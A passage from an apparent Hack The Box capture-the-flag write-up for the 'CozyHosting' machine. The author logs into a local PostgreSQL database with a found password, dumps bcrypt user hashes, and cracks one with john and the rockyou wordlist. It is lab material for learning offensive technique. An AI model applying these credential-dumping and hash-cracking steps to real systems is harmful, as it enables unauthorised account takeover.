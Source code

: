 Looking at the contents here we can see that there is a postgres database running on the box. Let's see if we can login using that password.

```bash
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres -W 
Password: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

We can! Let's see what we can find in here.

```bash
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
```

There is a db called cozyhosting, lets context to this db.

```bash
postgres=# \c cozyhosting
Password: 
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

I was able to find a hashed password for the user kanderson. Let's crack it with john.

```bash
(h0ax㉿kracken)-[~/htb/boxes/easy/cozy]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manc...... (?) #Pass is here
```
